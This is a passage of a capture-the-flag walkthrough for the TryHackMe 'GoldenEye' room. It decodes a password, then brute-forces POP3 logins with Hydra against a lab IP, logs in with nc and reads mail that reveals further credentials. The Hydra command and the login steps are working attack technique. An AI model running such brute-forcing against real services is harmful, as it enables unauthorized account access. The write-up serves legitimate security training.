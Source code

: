 ### **Info**
- These are the info that I've gotten

```txt
Boris
&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;

InvincibleHack3r

root

Natalya

alec

janus

Xenia
```

## Hunting for More Passwords

#### **Users.txt**
```txt
xenia
root
Natalya
alec
janus
```

#### **Hydra**

```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt 10.10.157.181 -s 55007 pop3 -t 64 -o password.txt

[55007][pop3] host: 10.10.157.181   login: `Natalya`   password: `bird`
```

#### **Login pop3 account of Natalya**
```sh
┌──(bc-here㉿BC-Here)-[~/CTF/THM/GoldenEye]
└─$ nc 10.10.157.181 55007
+OK GoldenEye POP3 Electronic-Mail System
user natalya
+OK
pass bird
+OK Logged in.
list
+OK 2 messages:
1 631
2 1048
.
retr 1
.
.
.
.
.
username: xenia
password: RCP90rulez!

And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
```